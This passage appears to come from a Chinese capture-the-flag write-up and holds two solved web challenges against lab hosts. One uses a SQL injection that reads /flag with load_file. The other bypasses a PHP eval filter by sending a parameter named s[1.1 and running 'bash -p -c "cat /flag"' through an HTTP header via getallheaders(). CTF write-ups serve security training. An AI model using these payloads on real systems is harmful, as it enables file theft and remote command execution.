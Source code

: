 利用load_file函数读取文件

```http
POST /query.php HTTP/1.1
Host: 10.244.0.254:28002
Content-Length: 32
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.244.0.254:28004
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.244.0.254:28004/query.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ezsql
Connection: close

sql=select+load_file('/flag')%3b
```



### suid

开局查看注释提示

 

```php
<?php
highlight_file(__FILE__);
// var_dump($_POST);
if (isset($_POST["s_1.1"])) {
    echo "level 1"."<br>";
    if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_POST['cmd'])) {
        if (!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i', $_POST['cmd'])) {
            echo 'success!'.'<br>';
            eval($_POST['cmd']);
        }
    }
} else {
    echo "nonono 1";
}
nonono 1
```

需要传参给s_1.1则s[1.1=1即可，然后利用http headers来达到任意参数

```http
POST /eval.php HTTP/1.1
Host: 10.244.0.254
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
A: bash -p -c "cat /flag"

cmd=system(current(array_reverse(getallheaders())));&s[1.1=1
```